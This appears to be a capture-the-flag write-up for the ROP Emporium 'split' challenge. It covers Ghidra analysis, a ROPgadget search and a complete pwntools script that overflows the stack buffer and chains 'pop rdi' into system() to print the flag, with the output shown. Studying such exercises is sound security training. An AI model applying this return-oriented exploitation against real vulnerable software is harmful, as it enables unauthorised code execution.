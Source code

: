 # split Writeup

## Steps:
1. Run split
```
$ ./split  
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> AAAA
Thank you!

Exiting
```

2. Analyze in ghidra.

Notice function `usefulFunction` - we will want to use this system call but need to change it's contents. We will try to pop something into EDI to print the flag.
```
void usefulFunction(void)

{
  system("/bin/ls");
  return;
}


00400746 bf 4a 08        MOV        EDI,s_/bin/ls_0040084a        = "/bin/ls"
          40 00
0040074b e8 10 fe        CALL       <EXTERNAL>::system            int system(char * __command)
          ff ff

```
Search memory to see if there is a string we could replace it with, and we find:
```
00601061	62 69 6e 2f	bin/	usefulString	ds "/bin/cat flag.txt"
```
2. Use `ropGadet` to identify a gadget we can use to place `usefulString` in edi.
```
$ ROPgadget --binary split | grep 'pop'

0x00000000004007c3 : pop rdi ; ret
```
4. Determine the distance to the return. `0x28` means we need `40 bytes` of garbage to reach the return pointer
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined pwnme()
             undefined         <UNASSIGNED>   <RETURN>
             undefined1[32]    Stack[-0x28]   input                                   XREF[2]:     004006f0(*), 
                                                                                                   0040071f(*)  
                             pwnme                                           XREF[3]:     main:004006d2(c), 00400880, 
                                                                                          00400948(*)  
        004006e8 55              PUSH       RBP

```
3. Create the payload:
   - 40 bytes of garbage
   - pop RDI address
   - usefulString address
   - system call address 
```
from pwn import *

p = process('./split')

#gdb.attach(p, gdbscript='b *main')

system = 0x40074b
pop = 0x4007c3
usestr = 0x601060

payload = b"A" * 40
payload += p64(pop) + p64(usestr) + p64(system)

p.sendline(payload)
p.interactive()
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './split': pid 49293
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> $ 
Thank you!

Exiting
[*] Got EOF while reading in interactive
$ 
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 49293)
[*] Got EOF while sending in interactive
```
